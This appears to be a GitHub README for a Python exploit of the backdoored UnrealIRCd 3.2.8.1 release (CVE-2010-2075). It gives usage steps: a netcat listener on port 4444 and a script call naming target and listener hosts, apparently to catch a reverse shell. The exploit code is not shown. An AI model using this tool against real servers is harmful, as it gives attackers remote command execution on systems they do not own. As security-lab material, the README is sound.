 # UnrealIRCD-3.2.8.1-Backdoor
UnrealIRCd 3.2.8.1 backdoor command execution exploit in Python 3 (CVE-2010-2075).

# Description
[UnrealIRCd](https://www.unrealircd.org/) version 3.2.8.1 contains a trojan horse which allows remote attackers to execute arbitrary commands ([CVE-2010-2075](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075)).

# Usage
Start a Netcat listener on the listening host:
<sup>nc -lp 4444</sup>

Execute the script, providing the following positional arguments:
<sup>python3 script.py <target> <tport> <listener> <lport></sup>
- '<target>' Target host IP address.
